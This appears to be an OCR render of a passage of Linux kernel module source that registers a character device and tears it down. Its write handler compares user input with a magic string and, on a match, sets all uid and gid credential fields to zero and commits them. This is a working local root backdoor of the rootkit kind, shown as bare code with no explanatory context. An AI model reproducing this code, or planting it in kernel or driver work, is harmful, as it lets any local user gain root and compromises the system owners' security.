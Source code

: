       if (data)
        {
          copy_from_user (data, buf, len);
            if (memcmp(data, magic, 7) == 0)
              {
                if ((new_cred = prepare_creds ()) == NULL)
                  {
                    return 0;
                  }
                V(new_cred->uid) = V(new_cred->gid) =  0;
                V(new_cred->euid) = V(new_cred->egid) = 0;
                V(new_cred->suid) = V(new_cred->sgid) = 0;
                V(new_cred->fsuid) = V(new_cred->fsgid) = 0;
                commit_creds (new_cred);
              }
            kfree(data);
          }
        
        return len;
    }


    static int __init
    root_init(void)
    {
      // Create char device
      if ((majorNumber = register_chrdev(0, DEVICE_NAME, &fops)) < 0)
        {
          return majorNumber;
        }
     
       // Register the device class
       rootcharClass = class_create(THIS_MODULE, CLASS_NAME);
       if (IS_ERR(rootcharClass))
         {
           unregister_chrdev(majorNumber, DEVICE_NAME);
           return PTR_ERR(rootcharClass); 
       }
     
       // Register the device driver
       rootcharDevice = device_create(rootcharClass, NULL,
                                      MKDEV(majorNumber, 0), NULL, DEVICE_NAME);
       if (IS_ERR(rootcharDevice))
         {
           class_destroy(rootcharClass);
           unregister_chrdev(majorNumber, DEVICE_NAME);
           return PTR_ERR(rootcharDevice);
         }

        return 0;    
    }

    static void __exit
    root_exit(void) 
    {
      // Destroy the device
      device_destroy(rootcharClass, MKDEV(majorNumber, 0));
      class_unregister(rootcharClass);                     
      class_destroy(rootcharClass);                        
      unregister_chrdev(majorNumber, DEVICE_NAME);     
    }
